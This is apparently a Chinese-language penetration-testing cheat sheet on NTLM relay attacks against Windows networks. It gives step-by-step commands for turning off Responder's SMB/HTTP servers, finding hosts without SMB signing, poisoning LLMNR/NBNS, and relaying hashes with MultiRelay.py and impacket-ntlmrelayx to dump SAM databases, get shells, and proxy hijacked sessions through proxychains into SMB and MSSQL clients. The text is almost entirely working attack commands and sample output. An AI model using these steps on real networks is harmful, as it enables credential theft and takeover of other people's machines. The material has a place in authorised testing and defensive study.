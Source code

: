 	如果机器具有SMB signing: disabled，则可以使用带有 Multirelay.py 脚本的 Responder 来执行NTLMv2 hashes relay并获得机器上的shell访问权限。也称为LLMNR/NBNS毒害
	打开 Responder.conf 文件并将 和 的值SMB设置HTTP为Off。
	[Responder Core]
	; Servers to start
	...
	SMB = Off     # Turn this off
	HTTP = Off    # Turn this off

	运行python RunFinger.py -i IP_Range以检测机器SMB signing：disabled
	>python Responder.py -I <interface_card>
	使用中继工具，例如ntlmrelayx或MultiRelay
	>impacket-ntlmrelayx -tf targets.txt 转储列表中目标的 SAM 数据库。
	>python MultiRelay.py -t <target_machine_IP> -u ALL
	ntlmrelayx 还可以充当每个受损会话的 SOCK 代理。
```bash
$ impacket-ntlmrelayx -tf /tmp/targets.txt -socks -smb2support
[*] Servers started, waiting for connections
Type help for list of commands
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

使用"-t"选择一个目标
impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

socks 代理可以与您的 Impacket 工具或 CrackMapExec 一起使用
$ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
$ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
$ proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
```
